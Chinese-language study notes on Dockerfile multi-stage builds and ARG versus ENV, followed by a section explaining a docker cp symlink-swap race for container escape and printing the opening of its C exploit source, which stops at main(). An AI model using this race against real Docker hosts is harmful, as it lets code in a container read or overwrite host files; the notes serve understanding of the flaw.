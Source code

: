 多个FROM指令不是为了生成多根的层关系，最后生成的镜像，仍以最后一条FROM为准，之前的被抛弃

每个FROM指令都是一个构建阶段，多条FROM就是多阶段构建。虽然之前的FROM会被抛弃，但是前置阶段的文件拷贝到后边的阶段中，这就是多阶段构建的最大意义。

这里做到的效果就是将编译环境和运行环境分离

构建阶段还可以进行命名，如:

```
# syntax=docker/dockerfile:1
FROM golang:1.16 AS builder
WORKDIR /go/src/github.com/alexellis/href-counter/
RUN go get -d -v golang.org/x/net/html  
COPY app.go    ./
RUN CGO_ENABLED=0 GOOS=linux go build -a -installsuffix cgo -o app .

FROM alpine:latest  
RUN apk --no-cache add ca-certificates
WORKDIR /root/
COPY --from=builder /go/src/github.com/alexellis/href-counter/app ./
CMD ["./app"]  

```

默认情况下，阶段没有命名，可以通过整数来引用他们，整数从0开始。

这种情况下，即使dokcerfile中的指令后面重新排序，COPY也不会中断。

#### ARG  vs ENV

- arg是在bulid的时候存在，可以在Dockerfile

中当作变量来使用(ARG专门为构建镜像而生)

- env是容器构建好之后的环境变量，不能在Dockerfile中当参数使用

#### Symlink_swap

容器内漏洞利用源代码

在容器内创建指向根目录"/"的符号链接，并不断的交换符号链接(由命令行参数传入，如"/totally_safe_path"）与一个正常目录(例如"/totally_safe_path-stashed")的名字。这样一来，宿主机执行docker cp 时，首先检查到"/totally_safe_path"是一个正常目录，但是后面执行复制操作时"/totally_safe_path"却变成了一个符号链接，那么Docker将在宿主机解析这个符号链接

```
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <unistd.h>

#define usage() \
	do { printf("usage: symlink_swap <symlink>\n"); exit(1); } while(0)

#define bail(msg) \
	do { perror("symlink_swap: " msg); exit(1); } while (0)

/* No glibc wrapper for this, so wrap it ourselves. */
#define RENAME_EXCHANGE (1 << 1)
int renameat2(int olddirfd, const char *oldpath,
              int newdirfd, const char *newpath, int flags)
{
	return syscall(__NR_renameat2, olddirfd, oldpath, newdirfd, newpath, flags);
}

/* usage: symlink_swap <symlink> */
int main(int argc, char **argv)
```